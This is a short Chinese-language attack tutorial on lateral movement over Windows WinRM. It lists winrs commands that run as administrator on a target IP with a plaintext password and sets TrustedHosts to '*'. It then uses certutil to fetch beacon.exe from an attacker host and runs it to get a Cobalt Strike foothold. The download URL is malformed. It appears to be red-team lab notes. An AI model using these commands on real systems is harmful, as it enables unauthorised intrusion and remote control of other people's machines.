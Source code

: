 ### 开启攻击

1. 攻击机开启：

```
winrm quickconfig -q
```

可通过`cs内置端口`扫描`5985`来判断目标主机是否开启WinRM


![](img/45.png)

使用`ps`命令查看开启情况

```bash
powershell Get-WmiObject -Class win32_service | Where-Object {$_.name -like "WinRM"}
```

**执行命令**

```bash
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ whoami
```

> 远程连接时可能会遇到以下错误

```
错误编号：-2133108526
Winrs error:WinRM 客户端无法处理该请求。可以在下列条件下将默认身份验证与 IP 地址结合使用: 传输为 HTTPS 或目标位于 TrustedHosts 列表中，并且提供了显式凭据。使用 winrm.cmd 配置 TrustedHosts。请注意，TrustedHosts 列表中的计算机可能未经过身份验证。有关如何设置 TrustedHosts 的详细信息，请运行以下命令: winrm help config。
```

在攻击机上执行下面这条命令，设置为信任所有主机，再去连接即可

```bash
winrm set winrm/config/Client @{TrustedHosts="*"}
```

上线CS:

```
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1beacon.exe c:/beacon.exe"
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ "cmd.exe /c c:/beacon.exe"
```

